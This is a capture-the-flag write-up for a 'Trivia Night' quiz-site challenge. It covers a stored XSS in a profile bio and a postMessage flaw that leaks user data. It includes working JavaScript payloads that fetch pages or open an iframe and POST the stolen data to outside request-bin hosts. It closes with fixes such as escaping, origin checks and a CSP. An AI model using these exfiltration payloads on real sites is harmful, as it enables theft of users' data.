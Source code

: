 **Name:** flofriday

**Points:** Not yet graded

<hr>

# Trivia

## Overview

[Trivia Night](https://trivia.hackthe.space/) is a quiz-website.
Users can log in, complete quizzes and collect points.

## Vulnerability

First, there is a stored XSS on the profile page. To be exact, the bio which can
be updated many times. This alone would just be a
[self XSS](https://en.wikipedia.org/wiki/Self-XSS), which is bad but not as
easy to exploit and requires tricking a target into copying malicious code.

Moreover the guess website trusts any script that has the origin
`trivia.hackthe.space` and will leak the current users data.

## Exploitation

During the exploitation I was on a Discord call with █████, █████ and █████, we explored the challenge together and discussed approaches created our payload on our own and never shared the flag.

First, I went to the [trivia](https://trivia.hackthe.space/) website and
created and account (no email verification required). Once logged in I inspected
the cookies in my browser and found out that the website set a cookie with the
`HttpOnly` flag set, so stealing the cookie from Javascript won't be possible.

Next, I stumbled upon the profile page, and found out that there is a XSS in the
bio. For example the following "bio" executes correctly:

```html
<script>
  alert("Flotschi");
</script>
```

During further exploration I found out that the URL to the profile page is
unique for every user. This means that we can send the admin a link to our own
page via the feedback functionality and they will execute any script we can
define in our bio.

I also discovered that every quiz website has an inline javascript with the
full user data, containing the bio. So my next try was to fetch the quiz site
with Javascript in my bio and send the response to a
[Request Bin](https://requestbin.com/):

```html
<script>
    async function leakQuiz() {
        // Get the guess side
        const res = await fetch("https://trivia.hackthe.space/viewquiz?qfrom=0&qto=20&title=Mixed+Trivia")
        const body = await res.text()

        // Send to request bin
        const headers = new Headers()
        const options = {
        method: "POST",
        headers,
        body: body,
        }

        fetch("https://en0a2xwmvx7zt7.x.pipedream.net/", options)
    }

    leakQuiz();
</script>
```

This attempt failed, because the profile page has the origin
`accounts.trivia.hackthe.space` and the quiz page has the slightly different
origin `trivia.hackthe.space` which means that my request violates the
[Cross-Origin Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS/Errors)
and results in my requests being blocked.

During this failed attempt, I also found out that the quiz side works kinda
oddly and that the quiz itself is another page embedded with an
[iframe](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe). From
now on I will refer to the page in the iframe as the "inner quiz page" and the
parent as the "outer quiz page".

So after reading the source code of both pages I figured out that the
control-flow is the following:

1. The inner quiz page sends a message to the outer one with the type
   `quizRequest`.
2. The outer page sends the users info to the page from which the message originated
   (normally this is the iframe but the outer page doesn't validate that it is
   the iframe).
3. The user completes the quiz in the inner page and upon finishing it, the
   inner page sends its parent the number of points the user achieved.
4. The outer page sends the points to the endpoint `/addpoints`.

One attempt to exploit the website is to embed the outer quizpage in an iframe
sending it a QuizRequest and when the page answers with the users info 
forwarding it to the [Request Bin](https://requestbin.com/). The following 
payload does exactly that:

```html
<iframe
  id="child"
  src="https://trivia.hackthe.space/viewquiz?qfrom=0&qto=20&title=Mixed+Trivia"
></iframe>
<script>
  document.getElementById("child").postMessage({ type: "quizRequest" }, "*");

  window.addEventListener("message", function (event) {
    const headers = new Headers();
    headers.append("Content-Type", "text");

    const options = {
      method: "POST",
      headers,
      body: JSON.stringify(event),
    };

    // TODO: change this to the public request bin you created
    fetch("https://ennwrozfk8g9n.x.pipedream.net/", options);
  });
</script>
```

And the exploit finally works, after a couple of seconds we receive a request
in our bin with the admins bio in the request body.

## Solution

First, there is the XSS vulnerability in the bio field of the profile page.
This can be easily fixed by correctly escaping the content of the bio. 

Next, there is an issue that the outer quizpage answers all pages who's origins
end in `trivia.hackthe.space`. This means that as soon as an attacker has a 
XSS vulnerability either on this origin or on an origin that end the same, they 
can leak all user data.

Last, the exploit could have also been prevented by the following CSP on the 
account page, which tells the browser that only scripts from the origin 
`trivia.hackthe.space` are allowed which does not include inline scripts. 

```
Content-Security-Policy: script-src https://trivia.hackthe.space;
```